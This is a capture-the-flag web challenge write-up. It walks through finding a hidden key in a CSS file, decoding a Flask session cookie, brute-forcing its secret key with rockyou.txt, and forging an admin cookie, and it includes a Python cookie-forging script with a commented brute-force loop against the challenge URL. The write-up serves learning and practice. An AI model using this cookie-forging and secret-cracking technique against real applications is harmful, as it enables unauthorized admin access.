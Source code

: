 ![image](https://user-images.githubusercontent.com/109911533/220856284-9cd886d2-98df-417d-8453-33e8ef317771.png)<br />

This challenge for me is so misleading xD, cost me so much time but still ... i got it.<br />
Lets take a look at the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220856885-118d6b37-1476-44f0-b1e7-e6262b74bbfd.png)<br />

Hmmmm, nothing much too see. How about taking a look at the page's source. <br />
![image](https://user-images.githubusercontent.com/109911533/220857098-02bba6cb-f1df-45ea-be9c-4d30c8e0e87c.png)<br/>

Looks like there's a hidden page called "/hidden_page", lets visit that.<br />
![image](https://user-images.githubusercontent.com/109911533/220857412-c74f17f5-60d7-40d5-8473-e2e98032cc7e.png)<br />

 The page told us that we need a key, but where you ask? This is the part that it got me so mislead that i ended up brute forcing for more than an hour.Basically the admin gave us this hint.<br />
![image](https://user-images.githubusercontent.com/109911533/220857773-df6c222e-0e28-47b8-a259-4690d283b2b3.png)<br />

Ahhh, classic rockyou.txt. If you dont know about it, you can look it up online about what it is.<br />
So now, what do we do in order to get the key. Brute forcing of course. Lets build a script to brute force the key from the website.This is a simple python script that should do the work.<br />
![image](https://user-images.githubusercontent.com/109911533/220858536-b99833ec-e726-4287-a16e-465ee1e964f8.png)<br />

So now we run the script, and start the waiting game. This is where i started to doubt myself about if its the correct way to do it since everyone in the Discord started to talk about it (no hints were given of course). But basically everyone is saying no need to brute force the key what so ever, and maybe there was something else, or you brute forcing the wrong part, bla bla ,...<br />

An HOUR passed without any result from the script, so i think there must be something wrong with the script or maybe there was something else. Waiting for the script i started to look at the source code one more time, just find out the infamous "key" is in a CSS file.<br />
![image](https://user-images.githubusercontent.com/109911533/220859876-d6d57d9b-cc53-4d34-bdeb-28afa656e5a2.png)<br />
![image](https://user-images.githubusercontent.com/109911533/220860016-76bd3dec-3841-4a82-8fb9-2a4b7a2a76d2.png)<br />

LOL, i stop the script and wanted to cry xD. Like for real? OMG.Add it to the url and we got it.<br ?>
![image](https://user-images.githubusercontent.com/109911533/220860307-a230779e-979f-4add-bfe3-847bfc36378a.png)<br />

It direct us to a page and said that we need to verify as ADMIN, which of course we're not. By clicking on verify we got "SUS" by the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220860663-24a91f2f-41a9-4447-b201-5c8b8800e7bf.png)<br />

Now if we take a look at the url, there's a key parameter saying "/?key=anotherkeylol". So you think this will be where we brute force to get the key for admin right?<br />

NO!!!

Again everyone is talking about no need to brute force the key parameter. So maybe it's something else.<br />
This is where i got stuck. I basically dont know what to do since you need to be the admin in order to be able to verify, and the url said that we need another key, if it's not brute forcing the key, what else coudl it be.<br />
Wandering around the chall'page, i notice something. There's a session cookie. Since a lot of web challs tend to be build on Flask, i grab that cookie and decode it. And voila, the cookie is setting "admin":"false".<br />
![image](https://user-images.githubusercontent.com/109911533/220862506-9d110cad-8ac7-4d35-a23c-2e02c06589be.png)

Now we know that to do next, which is to bake a Flask cookie for the website with "admin":"true" to able to become the admin and verify. But if you notice, when forging a flask cookie, we need a secret key.<br />
So this is where brute forcing comes in, using rockyou.txt we need to brute force the secret key, then use it to encode the cookie with the admin value setting to true. <br />
This is my script for it.<br />
```python
import requests
import sys
import zlib
from itsdangerous import base64_decode
import ast


from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key


def encode(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)

    except Exception as e:
        return "[Encoding error] {}".format(e)
        raise e

url = "https://chocolates-mhsctf.0xmmalik.repl.co/admin-check"

payload = {"admin": "true"}

#with open("rockyou.txt", errors = "ignore") as file:
    #lines = [l.strip() for l in file.readlines()]
    #for secret_key in lines:

print(encode("BATMAN", "{'admin':'true'}"))
        #print('Testing secret key "{}"'.format(secret_key))
        #r = requests.get(url , cookies = { "session" : new_cookie })

        #if "valentine{" in r.text:
            #print("GOT ITTTTTTTTTTTTTTTTTTTTTTTTTTTT")
            #break
```
<br />
The # comment i use is when i got the secret key, which is "BATMAN", then i comment all the code out, and use the encode function to encode "BATMAN" with admin setting to true.<br />

![image](https://user-images.githubusercontent.com/109911533/220864698-c3f3b177-97a8-422e-a1ed-04c66fffc086.png)<br />

Now we got that, lets copy and paste it on to the website cookie, and there you have it, the FLAG.<br />
![image](https://user-images.githubusercontent.com/109911533/220864973-977ec71f-fcc7-4d76-8a93-2f70cdd1171c.png)









